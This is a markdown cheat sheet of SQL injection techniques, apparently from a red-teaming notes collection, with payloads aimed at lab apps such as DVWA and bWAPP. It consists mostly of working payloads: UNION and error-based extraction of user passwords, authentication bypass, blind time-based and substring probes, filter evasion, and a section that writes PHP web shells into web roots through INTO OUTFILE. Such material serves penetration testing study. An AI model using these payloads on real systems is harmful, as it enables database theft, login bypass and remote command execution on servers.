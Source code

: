 ## Classic SQL Injection
| **Command** | **Description** |
| --------------|-------------------|
| `database()` | Prints the current database |
| `user()`  | Print the current user |
| `@@version` | Print the version of the database |
| `@@datadir` | Print the path where the mysql server is located |



### Union Select Data Extraction

```sql
mysql> select * from users where user_id = 1 order by 7;              
ERROR 1054 (42S22): Unknown column '7' in 'order clause'
mysql> select * from users where user_id = 1 order by 6;
mysql> select * from users where user_id = 1 union select 1,2,3,4,5,6;
http://demo.ine.local/sqli_2.php?movie=99 UNION SELECT NULL, @@datadir, @@version, @@version, NULL, NULL, NULL&action=go
```


```sql
select * from users where user_id = 1 union all select 1,(select group_concat(user,0x3a,password) from users),3,4,5,6;
' AND (SELECT 1 from(Select count(*), concat("Hello ", version()," - ", FLOOR(RAND(0)*2)) B from information_schema.tables group by B) C) #

' AND (SELECT 1 from(Select count(*), concat("Hello ", (select distinct(column_name) from information_schema.columns where table_schema="bWAPP" and table_name='users' limit 3,1)," - ", FLOOR(RAND(0)*2)) B from information_schema.tables group by B) C) #

' AND (SELECT 1 from (Select count(*), concat("Hello ", (select password from bWAPP.users limit 0,1)," - ", FLOOR(RAND(0)*2)) B from information_schema.tables group by B) C) #

' AND (SELECT 1 from (Select count(*), concat("Hello ", (select login from bWAPP.users limit 1,1)," - ", FLOOR(RAND(0)*2)) B from information_schema.tables group by B) C) #


```

### Authentication Bypass

```sql
mysql> select * from users where user='admin' and password='blah' or 1 # 5f4dcc3b5aa765d61d8327deb882cf99'
mysql> select * from users where user='admin' and password='blah' OR 1=1 limit 5,1 # 5f4dcc3b5aa765d61d8327deb882cf99'
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/assets/Screenshot%20from%202018-11-17%2016-16-06.png)

### Second Order Injection

```sql
mysql> insert into accounts (username, password, mysignature) values ('admin','mynewpass',(select user())) # 'mynewsignature');
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2016-57-24.png)

### Dropping a Backdoor

```sql
mysql> select * from users where user_id = 1 union select all 1,2,3,4,"<?php system($_REQUEST['c']);?>",6 into outfile "/var/www/dvwa/shell.php" #;

a' UNION SELECT 1, "<?php system($_GET['cmd']) ?>",1,1,1,1,1 INTO OUTFILE "/var/www/bWAPP/images/yabadooo.php" -- -
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2019-15-16.png)

### Conditional Select

```sql
mysql> select * from users where user = (select concat((select if(1>0,'adm','b')),"in"));
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2021-39-53.png)

### Bypassing Whitespace Filtering

```sql
mysql> select * from users where user_id = 1/**/union/**/select/**/all/**/1,2,3,4,5,6;
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2022-43-46.png)

## Time Based SQL Injection

### Sleep Invokation

```sql
mysql> select * from users where user_id = 1 or (select sleep(1)+1);
```

![](https://github.com/mantvydasb/RedTeaming-Tactics-and-Techniques/blob/master/.gitbook/assets/Screenshot%20from%202018-11-17%2015-51-50.png)

```sql
select * from users where user_id = 1 union select 1,2,3,4,5,sleep(1);
```

## Substring
```sql
' OR SUBSTRING(database(),1,1) = 'a
' OR SUBSTRING(database(),1,1) = 'b
' OR SUBSTRING(database(),1,1) = 'c
```

## Testing probes
```
' OR 'a'='a (TRUE condition for string values)

' OR 'a'='b (FALSE condition for string values)

999999999999 OR 1=1 (TRUE condition for numeric values)

999999999999 OR 1=2 (FALSE condition for numeric values)

' (string terminator)

;

, (list elements separator)

-- (comment)
```